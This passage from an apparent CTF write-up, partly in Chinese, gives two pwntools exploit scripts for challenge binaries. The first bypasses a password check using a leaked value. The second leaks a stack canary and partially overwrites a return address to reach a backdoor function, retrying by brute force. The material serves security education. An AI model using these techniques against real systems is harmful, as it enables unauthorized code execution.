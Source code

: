Exp:

```python
from pwn import *

io = ...

last_line = bytes()
while True:
    line = io.recvline()
    if b"[Error]" in line:
        break
    last_line = line

password = last_line[28 : 28 + 15]
io.sendafter(b"voice password.\n", password + b"\x00" + p64(12345)[0:7]) # 任意五位数
io.sendlineafter(b"numeric password.\n", b"12345")

io.interactive()
```

## Read_once_twice!

第一次 `read` 填充 canary null byte 泄漏 canary；

第二次 `read` 绕过 canary 同时修改 retaddr 低位至 backdoor。

适当爆破（成功率 1/16）即可成功。

Exp:

```python
from pwn import *

e = ELF("./twice")

while True:
    global io
    io = ...
    io.recv()
    io.send(cyclic(25))
    io.recvn(25)
    canary = b"\x00" + io.recvn(7)
    io.send(cyclic(24) + canary + cyclic(8) + p64(e.sym["backdoor"] + 1)[0:2])
    try:
        io.sendafter(b"hand.\n", b"ls") # 测试是否成功
    except Exception:
        continue
    break

io.interactive()
```

## Where is fmt?
